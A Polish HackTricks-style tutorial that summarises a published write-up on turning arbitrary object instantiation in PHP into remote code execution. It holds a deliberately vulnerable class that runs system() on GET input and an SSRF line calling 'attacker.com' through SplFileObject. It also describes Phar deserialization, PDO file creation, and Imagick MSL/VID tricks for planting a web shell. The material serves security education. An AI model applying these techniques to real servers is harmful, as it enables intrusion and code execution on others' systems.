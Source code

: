# PHP - RCE nadużywanie tworzenia obiektów: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

To jest zasadniczo podsumowanie [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Wprowadzenie

Tworzenie nowych, dowolnych obiektów, takich jak `new $_GET["a"]($_GET["a"])`, może prowadzić do zdalnego wykonania kodu (RCE), jak szczegółowo opisano w [**opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Dokument ten podkreśla różne strategie osiągania RCE.

## RCE za pomocą klas niestandardowych lub autoloadingu

Składnia `new $a($b)` jest używana do instancjonowania obiektu, gdzie **`$a`** reprezentuje nazwę klasy, a **`$b`** jest pierwszym argumentem przekazywanym do konstruktora. Te zmienne mogą pochodzić z danych wejściowych użytkownika, takich jak GET/POST, gdzie mogą być ciągami lub tablicami, lub z JSON, gdzie mogą występować jako inne typy.

Rozważ poniższy fragment kodu:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
W tym przypadku ustawienie `$a` na `App` lub `App2` oraz `$b` na polecenie systemowe (np. `uname -a`) skutkuje wykonaniem tego polecenia.

**Funkcje autoloading** mogą być wykorzystywane, jeśli takie klasy nie są bezpośrednio dostępne. Te funkcje automatycznie ładują klasy z plików w razie potrzeby i są definiowane za pomocą `spl_autoload_register` lub `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Zachowanie autoloadingu różni się w zależności od wersji PHP, oferując różne możliwości RCE.

## RCE za pomocą klas wbudowanych

Brakując niestandardowych klas lub autoloaderów, **wbudowane klasy PHP** mogą wystarczyć do RCE. Liczba tych klas waha się od 100 do 200, w zależności od wersji PHP i rozszerzeń. Można je wylistować za pomocą `get_declared_classes()`.

Konstruktory, które mogą być interesujące, można zidentyfikować za pomocą API refleksji, jak pokazano w poniższym przykładzie oraz w linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE za pomocą konkretnych metod obejmuje:**

### **SSRF + deserializacja Phar**

Klasa `SplFileObject` umożliwia SSRF poprzez swój konstruktor, pozwalając na połączenia z dowolnym URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF może prowadzić do ataków deserializacji w wersjach PHP przed 8.0 przy użyciu protokołu Phar.

### **Wykorzystywanie PDO**

Konstruktor klasy PDO umożliwia połączenia z bazami danych za pomocą ciągów DSN, co potencjalnie umożliwia tworzenie plików lub inne interakcje:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Wersje PHP do 5.3.22 i 5.4.12 były podatne na ataki XXE za pośrednictwem konstruktorów `SoapClient` i `SimpleXMLElement`, w zależności od wersji libxml2.

## RCE za pomocą rozszerzenia Imagick

W analizie **zależności projektu** odkryto, że **Imagick** może być wykorzystany do **wykonywania poleceń** poprzez instancjonowanie nowych obiektów. Stwarza to możliwość wykorzystania luk w zabezpieczeniach.

### Parser VID

Zidentyfikowano zdolność parsera VID do zapisywania treści w dowolnie określonej ścieżce w systemie plików. Może to prowadzić do umieszczenia powłoki PHP w katalogu dostępnym przez sieć, osiągając zdalne wykonanie kodu (RCE).

#### Parser VID + Przesyłanie plików

Zauważono, że PHP tymczasowo przechowuje przesyłane pliki w `/tmp/phpXXXXXX`. Parser VID w Imagick, wykorzystując protokół **msl**, może obsługiwać znaki wieloznaczne w ścieżkach plików, co ułatwia przeniesienie tymczasowego pliku do wybranej lokalizacji. Ta metoda oferuje dodatkowe podejście do osiągnięcia dowolnego zapisu plików w systemie plików.

### Awaria PHP + Atak Brute Force

Metoda opisana w [**oryginalnym opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) polega na przesyłaniu plików, które powodują awarię serwera przed usunięciem. Poprzez atak brute force na nazwę tymczasowego pliku, możliwe jest, aby Imagick wykonał dowolny kod PHP. Jednak ta technika okazała się skuteczna tylko w przestarzałej wersji ImageMagick.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
